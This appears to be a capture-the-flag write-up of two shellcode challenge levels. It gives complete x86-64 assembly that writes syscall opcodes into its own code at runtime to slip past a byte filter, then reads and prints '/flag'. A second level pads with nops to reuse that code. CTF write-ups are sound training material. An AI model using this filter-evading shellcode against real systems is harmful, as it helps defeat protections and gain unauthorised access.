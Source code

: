 ### level5

This level we cannot directly have `syscall` or `int` in our assembly, which gets translated to the according bytes. We can however modify the bytes in place during the runtime to get those bytes. 

```asm
.global _start
.intel_syntax noprefix
_start:
    mov byte ptr [rip + syscall1], 0x0f
    mov byte ptr [rip + syscall1 + 1], 0x05
    mov byte ptr [rip + syscall2], 0x0f
    mov byte ptr [rip + syscall2 + 1], 0x05
    mov byte ptr [rip + syscall3], 0x0f
    mov byte ptr [rip + syscall3 + 1], 0x05
    mov byte ptr [rip + syscall4], 0x0f
    mov byte ptr [rip + syscall4 + 1], 0x05

    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
syscall1:
    .byte 0x00
    .byte 0x00
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
syscall2:
    .byte 0x00
    .byte 0x00
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
syscall3:
    .byte 0x00
    .byte 0x00
    mov rax, 60
syscall4:
    .byte 0x00
    .byte 0x00
flag:
    .ascii "/flag\0"
```

### level6

Oh no! I won't have a read&write permissions in the first 4096 bytes of my shellcode! Well, then I will start my shellcode after 4096 bytes lol. I will fill the first 4096 bytes with 1-byte instruction, `nop` that does not do anything. Other than that, since this level shares the same constraints as `level5`, I will reuse the shellcode from `level5`. 
